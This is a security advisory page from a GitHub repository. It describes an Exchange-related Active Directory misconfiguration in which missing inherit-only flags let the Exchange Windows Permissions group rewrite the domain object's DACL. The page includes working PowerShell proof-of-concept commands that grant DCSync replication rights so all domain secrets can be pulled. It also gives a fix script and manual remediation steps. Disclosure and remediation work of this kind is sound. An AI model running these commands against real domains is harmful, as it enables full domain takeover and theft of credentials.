 Exchange-AD-Privesc/DomainObject.md at master · gdedrouas/Exchange-AD-Privesc · GitHub

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='32'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='546' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md#domain-object-dacl-privilege-escalation)Domain object DACL privilege escalation

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) security group to compromise the entire prepared Active Directory domain.

DISCLAIMER: This issue has been responsibly disclosed to MSRC in October 2017 and after a few back and forth emails, they decided it was working as intended and would not fix it.

- Description of the issue

When preparing Exchange 2010/2013/2016 installation in Shared permissions (default) or RBAC split permissions, some ACEs are positioned on the domain object for the **Exchange Windows Permissions** security group. This happens during the "Setup /PrepareAD" command.

Two ACEs on the domain object are missing the INHERIT_ONLY_ACE bit in the Flags field.

This is their SDDL representation:

	(OA;CI;DTWD;;4828cc14-1437-45bc-9b07-ad6f015e5f28;<SID of EWP>)
	(OA;CI;DTWD;;bf967aba-0de6-11d0-a285-00aa003049e2;<SID of EWP>)

Notice the missing 'IO' (inherit_only) flag. As a matter of fact, INHERITED_OBJECT_TYPE ACE effectively apply to the object itself when the inherit_only flag is not set.

This is how they are documented on Technet, so it is definitely missing that information:

| Account | ACE type | Inheritance | Permissions | On property/ Applies to | Comments |
| --- | --- | --- | --- | --- | --- |
| Exchange Windows Permissions | Allow ACE | All | WriteDACL | / user |     |
| Exchange Windows Permissions | Allow ACE | All | WriteDACL | / inetOrgPerson |     |

This is how they appear in the GUI (DSA console), which is also missing that information:

[![DSA_ACE_view.png](../_resources/4dac511100322d2804916fe7bf1c3f2a.png)](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DSA_ACE_view.png)

The issue can be confirmed in the "Effective Access" tab of the domain object when specifying EWP.

[![DSA_effective_access.png](../_resources/f0116df8b7e5e6160d806c63c4f7d655.png)](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DSA_effective_access.png)

Coincidentally, INHERITED_OBJECT_TYPE ACE created with DSA console always have the IO flag. Creating a 'self and specific descendents', INHERITED_OBJECT_TYPE ACE is only possible programmatically and only viewable programmatically.

- Technical consequence

The Allow permission to WriteDACL is granted to the Trustee on the domain object itself and not only on its user/inetOrgPerson descendants, effectively giving complete control to anyone with the **Exchange Windows Permissions** SID in its token.

- Expected behavior

The Allow permission to WriteDACL should only be given on child objects matching the INHERITED_OBJECT_TYPE Guid. It is supposed to only apply to user or inetOrgPerson classes. This is not consistent with the other INHERITED_OBJECT_TYPE ACEs on the domain object for the same Trustee, which all have the INHERIT_ONLY_ACE bit in the Flags field.

- Security Consequence

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) security group to compromise the entire prepared Active Directory domain. Just set the Ds-Replication-Get-Changes and Ds-Replication-Get-Changes-All extended rights on the domain object. This is enough to use a DRSUAPI replication tool ala DCSync to get all the domain secrets (Kerberos keys, hashes, etc.).

You can control the SID of the EWP group from **Organization management**, from **Account operators** or from any Exchange server. Interestingly, the RBAC system is proxified through EWP so a privilege escalation is possible from the *Active Directory Permissions* RBAC role to compromise the entire prepared Active Directory domain.

- Proof of concept 1: Set-Acl (or with DSA console)

From an **Organization Management** member account, add yourself to **Exchange Windows Permissions**. This is possible by default (see the above technet page).

	$id = [Security.Principal.WindowsIdentity]::GetCurrent()
	$user = Get-ADUser -Identity $id.User
	Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members $user

RELOG to update groups in your token then give yourself Ds-Replication-Get-Changes and Ds-Replication-Get-Changes-All extended rights on the domain object.

	$acl = get-acl "ad:DC=test,DC=local"
	$id = [Security.Principal.WindowsIdentity]::GetCurrent()
	$user = Get-ADUser -Identity $id.User
	$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
	# rightsGuid for the extended right Ds-Replication-Get-Changes-All
	$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
	$identity = [System.Security.Principal.IdentityReference] $sid
	$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
	$type = [System.Security.AccessControl.AccessControlType] "Allow"
	$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
	$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
	$acl.AddAccessRule($ace)
	# rightsGuid for the extended right Ds-Replication-Get-Changes
	$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
	$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
	$acl.AddAccessRule($ace)
	Set-acl -aclobject $acl "ad:DC=test,DC=local"

Optionally, if PowerView is available, the same can be achieved with its `Add-DomainObjectAcl` cmdlet using the flag `-Rights DCSync`.

- Proof of concept 2: RBAC Add-ADPermission

The following Powershell code, executed by a user account with the RBAC role *Active Directory Permissions*, sets the Ds-Replication-Get-Changes and Ds-Replication-Get-Changes-All extended rights on the domain object.

	$id = [Security.Principal.WindowsIdentity]::GetCurrent()
	Add-ADPermission "DC=test,DC=local" -User $id.Name -ExtendedRights Ds-Replication-Get-Changes,Ds-Replication-Get-Changes-All

- Workaround fix

Use the Fix-DomainObjectDACL.ps1 Powershell script in this repository. Read it, test it, use it at your own risk.

By default, it checks the two faulty ACE, this can be done by any user. Use with -Fix switch with Domain Admins privileges to set the InheritOnly missing flags. Use with -Restore switch to restore the two previously fixed ACEs to their original, *vulnerable* state. An SDDL backup is made everytime the script is run.

Another option is doing it manually with LDP. Bind as a Domain Admin account with the usual precautions, as you will change the domain object DACL. Locate the 2 faulty ACE in the DACL of the domain object: you can sort by Trustee to see Exchange Windows Permissions, there will only be 2 ACE with "Write DACL,..." Rights. Check the 'Inherit only' box in their ACE flags field.